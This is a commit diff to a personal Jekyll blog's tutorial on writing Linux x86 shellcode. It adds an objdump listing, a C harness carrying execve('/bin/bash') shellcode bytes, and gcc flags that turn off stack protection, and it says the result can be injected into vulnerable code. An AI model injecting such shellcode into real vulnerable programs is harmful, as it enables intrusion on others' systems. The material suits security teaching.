

Before and after one commit to MaskedFox/maskedfox.github.io, a Jekyll site: the page built from _posts/2019-03-29-Quick-Shellcode-Writing-P2.md, in a window 1280 px wide and 1400 px high, scrolled down 5078 px. Shown: the whole window, without its empty margins (319-959 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 6111 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2019-03-29-Quick-Shellcode-Writing-P2.md

````diff
--- a/_posts/2019-03-29-Quick-Shellcode-Writing-P2.md
+++ b/_posts/2019-03-29-Quick-Shellcode-Writing-P2.md
@@ -239,6 +239,9 @@ So, lets improve our assembly code:
 ```nasm
 #execVeShell.s
 
+.text
+.globl _start
+
 _start:
 
     jmp myCallStatement
@@ -246,13 +249,13 @@ _start:
         popl %esi                #pop register ESI which is the start of "bin/bashAAAAABBBBCCCCC"
         xorl %eax, %eax          # Move Zeros to EAX
         movb %al, 0x9(%esi)      # Move a Zero or NUll to "A"
-        movl esi, 0xa(%esi)      # Moves Address of ESI to "BBBB", now "MNOP"
+        movl %esi, 0xa(%esi)      # Moves Address of ESI to "BBBB", now "MNOP"
         movl %eax, oxe(%esi)     # Moves Zeros to "CCCC" Now, "0000"
         movb $11, %al            # Moves 11 into AL(Which is the Call sys Execve)
         movl %esi, %ebx          # Moves "/bin/bash\0" into EBX
         leal 0xa(%esi), %ecx     # Moves "MNOP" into ECX
         leal 0xe(%esi), %edx     # Moves "0000" into EDX
-        int 80
+        int $0x80
 
     myCallStatement:
         call shellcode
@@ -270,6 +273,80 @@ as -o execVeShellcode.o ExecVeShellcode.s
 ld -o execVeShellcode execVeShellcode.o
 ```
 
+Now lets check if there are any opcodes:
+
+```bash
+root@mfox:~/Documents# objdump -d execVeShellcode
+
+execVeShellcode:     file format elf32-i386
+
+
+Disassembly of section .text:
+
+08049000 <_start>:
+ 8049000:	eb 18                	jmp    804901a
+
+08049002 :
+ 8049002:	5e                   	pop    %esi
+ 8049003:	31 c0                	xor    %eax,%eax
+ 8049005:	88 46 09             	mov    %al,0x9(%esi)
+ 8049008:	89 76 0a             	mov    %esi,0xa(%esi)
+ 804900b:	89 46 0e             	mov    %eax,0xe(%esi)
+ 804900e:	b0 0b                	mov    $0xb,%al
+ 8049010:	89 f3                	mov    %esi,%ebx
+ 8049012:	8d 4e 0a             	lea    0xa(%esi),%ecx
+ 8049015:	8d 56 0e             	lea    0xe(%esi),%edx
+ 8049018:	cd 80                	int    $0x80
+
+0804901a :
+ 804901a:	e8 e3 ff ff ff       	call   8049002
+
+0804901f :
+ 804901f:	2f                   	das
+ 8049020:	62 69 6e             	bound  %ebp,0x6e(%ecx)
+ 8049023:	2f                   	das
+ 8049024:	62 61 73             	bound  %esp,0x73(%ecx)
+ 8049027:	68 41 42 42 42       	push   $0x42424241
+ 804902c:	42                   	inc    %edx
+ 804902d:	43                   	inc    %ebx
+ 804902e:	43                   	inc    %ebx
+ 804902f:	43                   	inc    %ebx
+ 8049030:	43                   	inc    %ebx
+
+
+```
+
+Lets grab the opcodes from above and compile our shellcode:
+
+```c
+#include
+
+char shellcode[]= "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a"
+                  "\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e"
+                  "\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62"
+                  "\x61\x73\x68\x41\x42";
+
+int main()
+{
+        int *ret;
+        ret = (int *)&ret +2;
+        (*ret) = (int)shellcode;
+}
+
+```
+
+Lets compile it and run it:
+
+```bash
+root@mfox:~/Documents# gcc -ggdb -mpreferred-stack-boundary=2 -m32 -fno-stack-protector -z execstack  shellExecVe.c -o shellExecVe
+root@mfox:~/Documents# chmod +x shellExecVe
+root@mfox:~/Documents# ./shellExecVe
+root@mfox:/root/Documents#
+
+```
+
+Woot Woot! Annnnnd now we know how to create our own Shellcode that you can inject in vulnerable code.
+
 **#Important Resources:**
 
 These serious of blogs come from the amazing tutotials from Security Tube: https://youtu.be/e2jQgOVkJPM
````
